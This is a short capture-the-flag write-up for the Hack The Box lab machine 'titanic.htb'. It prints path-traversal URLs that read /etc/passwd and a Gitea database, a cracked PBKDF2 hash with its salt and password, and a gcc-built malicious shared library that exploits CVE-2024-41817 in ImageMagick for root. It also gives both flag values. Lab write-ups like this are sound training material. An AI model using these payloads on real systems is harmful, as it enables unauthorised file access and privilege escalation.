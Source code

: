 titanic.htb 
============

nmap result:
------------

Open port: 22,80 

80 --> titanic.htb 

enumeration:
------------

http://titanic.htb/download?ticket=../../../../etc/passwd ==> works 

http://dev.titanic.htb


i found the web page is using gitea  - it is a open source 

http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db  --> gives the database 

in that database i found the user table contains creds..

if found it using the pbkd2 hash algorithm:

[DK = PBKDF2(Password, Salt, PRF, c, dkLen)]

PRF ==> rand c==> iteration(50000)    dkLen ==> length (50) 

[password] = e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56

[Salt] = 8bf3e3452b78544f8bee9400d6936d34

[PRF] = 0ce6f07fc9b557bc070fa7bef76a0d15

[c] = 50000

[dkLen] = 50


i cracked the password:

[Password] : 25282528

user.txt --> a8d3b05650e382086b9f0ecba9fcd252
=============================================

previledge escalation:
-----------------------

/opt/scripts/identify_images.sh  -->  script to retrieve info about jpg and store in metadata.log using the tool "magick"

magick -version ==> ImageMagick 7.1.1-35 Q16-HDRI x86_64 

CVE-2024–41817  
--------------
The `AppImage` version `ImageMagick` might use an empty path when setting `MAGICK_CONFIGURE_PATH` and `LD_LIBRARY_PATH` environment variables while executing, which might lead to arbitrary code execution by loading malicious configuration files or shared libraries in the current working directory while executing `ImageMagick`. The vulnerability is fixed in 7.11-36.

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF 

use the script the /opt/app/static/assets/images/ directory..

the root.txt is created..

root.txt --> bcdcbc17e9bfbba157fa7601cbe071f2
==============================================
